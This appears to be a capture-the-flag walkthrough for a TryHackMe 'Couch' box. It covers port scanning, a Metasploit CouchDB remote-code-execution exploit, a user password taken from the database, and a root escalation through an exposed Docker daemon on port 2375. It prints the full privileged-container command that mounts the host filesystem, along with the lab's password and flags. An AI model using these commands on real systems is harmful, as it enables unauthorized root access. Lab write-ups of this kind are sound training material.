







## TL;DR

In this challenge we find the credentials of `atena` on the couchDB server, and use it to login as `atena` via ssh.

We move to `root` using open port `2375` that has docker daemon, which let us spawn `privileged container` and mount it to our filesystem.

### Recon

we start with `rustscan`, using this command:
```bash
rustscan -a $target -- -sV -sC -oN nmap.txt -oX nmap.xml
```



we can see port `22` with ssh and port `5984` with couchDB httpd server.
```bash
PORT     STATE SERVICE REASON         VERSION                                                                                                    
22/tcp   open  ssh     syn-ack ttl 62 OpenSSH 7.2p2 Ubuntu 4ubuntu2.10 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 34:9d:39:09:34:30:4b:3d:a7:1e:df:eb:a3:b0:e5:aa (RSA)
| ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABAQDMXnGZUnLWqLZb8VQiVH0z85lV+G4KY5l5kKf1fS7YgSnfZ+k3CRjAZPuGceg5RQEUbOMCm+0u4SDyIEbwwAXGv0ORK4/VEIyJlZmtlqeyASwR8ML4yjdGqinqOUZ3jN/ZIg4veJ02nr86GZP+Nto0TZt7beaIxykMEZHTdo0CctdKLIet7PpvwG4F5Tn9MBoys9pUjfpcnwbf91Tv6i56Gipo07jKgb5vP8Nl1TXPjWB93WNW2vWEQ1J4tiyZlBeLOaNaEbxvNQFnKxjVYiiLCbcofwSdrwZ7/+sIy5BdiNW+k81rBN3OqaQNZ8urFaiXXf/ukRr/hhjY5a6m0MHn
|   256 a4:2e:ef:3a:84:5d:21:1b:b9:d4:26:13:a5:2d:df:19 (ECDSA)
| ecdsa-sha2-nistp256 AAAAE2VjZHNhLXNoYTItbmlzdHAyNTYAAAAIbmlzdHAyNTYAAABBBNTR07g3p8MfnQVnv8uqj8GGDH6VoSRzwRFflMbEf3WspsYyVipg6vtNQMaq5uNGUXF8ubpsnHeJA+T3RilTLXc=
|   256 e1:6d:4d:fd:c8:00:8e:86:c2:13:2d:c7:ad:85:13:9c (ED25519)
|_ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAIKLUyz2Tpwc5qPuFxV+HnGBeqLC6NWrmpmGmE0hk7Hlj
5984/tcp open  http    syn-ack ttl 62 CouchDB httpd 1.6.1 (Erlang OTP/18)
|_http-server-header: CouchDB/1.6.1 (Erlang OTP/18)
|_http-favicon: Unknown favicon MD5: 2AB2AAE806E8393B70970B2EAACE82E0
| http-methods: 
|_  Supported Methods: GET HEAD
|_http-title: Site doesn't have a title (text/plain; charset=utf-8).
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

I added `couch.thm` to my `/etc/hosts`.

### Get shell using RCE on couchDB and move to atena using password found on the db

On port `5984` we can detect couchDB, I googled and found `/_utils` is the endpoint for admin
```bash
http://couch.thm:5984/_utils/
```


I googled for exploits and found this [https://www.exploit-db.com/exploits/45019](https://www.exploit-db.com/exploits/45019), which is basically the metasploit module `linux/http/apache_couchdb_cmd_exec`.
After setting the parameters, I got shell



I pasted the penelope payload for easier shell.



I grab the user flag:
```bash
couchdb@ubuntu:/home/atena$ cat user.txt 
THM{1ns3cure_couchdb}
```

Also, the password of `atena` can be found on the couchdb, at `http://couch.thm:5984/_utils/document.html?secret/a1320dd69fb4570d0a3d26df4e000be7`.



Using the password `t4qfzcc4qN##` we can move to user `atena`



(We could have done that from the begin, using ssh to `atena` with the password we find)

### Privilege Escalation to Root using create privileged container via docker daemon port 2375

I executed `ss -tl` to view opened ports, we can see port `2375`



I searched google for this port:
> Port 2375 is primarily known as the default, unencrypted TCP port for remote management of the Docker daemon

and more useful for us:
> Security Risk: Exposing port 2375 openly to the internet is a critical security vulnerability, as attackers can gain full control (root access) over the Docker host.

Okay, I found this exploit [https://www.exploit-db.com/exploits/42356](https://www.exploit-db.com/exploits/42356).

Oh, that's already found in the `.bash_history`, we just need to copy it.
```bash
atena@ubuntu:~$ tail .bash_history 
apt-get remove redis
nano root.txt
exit
sudo deluser USERNAME sudo
sudo deluser atena sudo
exit
sudo -s
docker -H 127.0.0.1:2375 run --rm -it --privileged --net=host -v /:/mnt alpine
uname -a
exit
```

So, let's spawn privileges shell where the filesystem mounted to `/mnt`:
```bash
docker -H 127.0.0.1:2375 run --rm -it --privileged --net=host -v /:/mnt alpine
```



and the root flag
```bash
/ # cat /mnt/root/root.txt 
THM{RCE_us1ng_Docker_API}
```